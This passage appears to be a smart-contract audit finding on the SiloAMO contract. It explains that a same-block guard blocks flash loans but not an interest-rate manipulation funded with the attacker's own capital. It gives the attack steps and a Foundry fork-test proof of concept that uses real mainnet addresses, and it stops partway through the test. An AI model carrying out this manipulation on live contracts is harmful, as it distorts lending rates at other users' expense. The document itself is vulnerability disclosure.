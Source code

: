 In order to protect against this possibility, the SiloAMO checks if the interest rate timestamp has been updated in the current block. If it has, it does not allow `update()` to be called:

```solidity
ISilo.UtilizationData memory utilizationData = ISilo(market).utilizationData(address(OHM));
if (utilizationData.interestRateTimestamp == block.timestamp)
    revert AMO_UpdateReentrancyGuard(address(this));
```

While this successfully protects against flash loans, it does not protect against a similar attack that occurs with an attacker's own funds.

Here is a simple flow of what this might look like:

- An attacker deposits a large amount of WETH or XAI into the OHM Silo (or, with slightly more effort, deposit a smaller amount of WETH or XAI, borrow OHM, trade it for WETH or XAI, and use this pattern to create a leveraged borrow position)
- The block before `update()` is allowed to be called, they take a large borrow of OHM
- This increases the interest rate, but puts `totalDeposits` far below the optimal utilization rate
- The next block, they call `update()`, which causes SiloAMO to deposit a large amount of OHM
- Immediately after this transaction, the user repays their borrowed OHM, minimizing interest costs

The result is that the interest rates will be forced down for a full day. This attack can be repeated daily in order to keep the interest rate deflated.

**Proof of Concept**

I've put together the following standalone fork test to model this situation. It can be dropped into your current test suite and run with the relevant interfaces imported and RPC_URL inserted.

```solidity
contract TestInterestRateManipulation is Test {
    using FullMath for uint256;

    ISilo silo = ISilo(0xf5ffabab8f9a6F4F6dE1f0dd6e0820f68657d7Db);
    IERC20 ohm = IERC20(0x64aa3364F17a4D01c6f1751Fd97C2BD3D7e7f1D5);
    IERC20 weth = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    address shareCollToken = 0x907136B74abA7D5978341eBA903544134A66B065;
    IInterestRateModel model = IInterestRateModel(0x76074C0b66A480F7bc6AbDaA9643a7dc99e18314);
    address amo = makeAddr("policy");

    function testInterestRateManipulation() public {
        vm.createSelectFork("RPC_URL");
        deal(address(weth), address(this), 10_000e18);
        weth.approve(address(silo), 10_000e18);
        deal(shareCollToken, amo, 10_000e18);
        vm.startPrank(amo);
        IERC20(shareCollToken).approve(address(silo), 10_000e18);
        ohm.approve(address(silo), 100_000e9);
        vm.stopPrank();
        deal(address(ohm), address(this), 100_000e9);
        ohm.approve(address(silo), 100_000e9);
        deal(address(ohm), amo, 100_000e9);

        // the starting rate for the silo
        _update();
        console.log("Starting Rate: ", model.getCurrentInterestRate(address(silo), address(ohm), block.timestamp));

        // we make a large borrow, which pushes rates up but also baits the amo into depositing a large amount of OHM
        silo.deposit(address(weth), 10_000e18, false);
        (uint borrowAmt,) = silo.borrow(address(ohm), silo.liquidity(address(ohm)));
        console.log("Rate After OHM Borrow: ", model.getCurrentInterestRate(address(silo), address(ohm), block.timestamp));

        // wait one block so that update() is allowed to be called
        vm.warp(block.timestamp + 12);
```